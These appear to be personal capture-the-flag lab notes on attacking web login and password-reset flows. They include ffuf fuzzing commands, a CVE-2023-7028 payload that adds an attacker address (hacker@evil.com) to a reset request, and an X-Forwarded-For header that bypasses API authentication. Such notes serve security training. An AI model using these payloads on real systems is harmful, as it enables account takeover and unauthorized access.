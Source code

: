 ____

# Weak Passwords

![[Pasted image 20241217114441.png]]

# Default Passwords

Search for "Default credentials" on google

# Username enumeration through errors

Username is invalid

![[Pasted image 20241217120440.png]]
# Username Enumeration Through Forgot Password Function

Invalid username supplied

![[Pasted image 20241217122422.png]]

# Brute Forcing Username and Password

Cluster-bomb

# Self Registration Using Content Discovery

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/hidden-registration/user_FUZZ -w content.txt
```

![[Pasted image 20241217123723.png]]

## Javascript Files

![[Pasted image 20241217123935.png]]

## APIs

Leaked ``/by-api/api/auth/login/``

![[Pasted image 20241217124748.png]]

# Brute Forcing One-Time Password (OTP)

![[Pasted image 20241217125652.png]]

# Leaked Password Reset Tokens
## 1
![[Pasted image 20241217131421.png]]

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/reset-token-leak/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217131733.png]]

![[Pasted image 20241217131757.png]]

![[Pasted image 20241217131922.png]]

## 2

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/api-token-leak/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217133540.png]]

# Forced Password Reset

Add email field, 
![[Pasted image 20241217134424.png]]

https://github.com/Vozec/CVE-2023-7028


```
user[email][]=my.target@example.com&user[email][]=hacker@evil.com
```

# Bypassing API Authentication with X-Forwarded-For

![[Pasted image 20241217134850.png]]


```
X-forwarded-for: 127.0.0.1
```

![[Pasted image 20241217135113.png]]
# X-Forwarded-For with Information Disclosure

```bash
curl -I https://mzg7ibfb.eu1.ctfio.com/by-api-xip-2/admin/
```

![[Pasted image 20241217135449.png]]

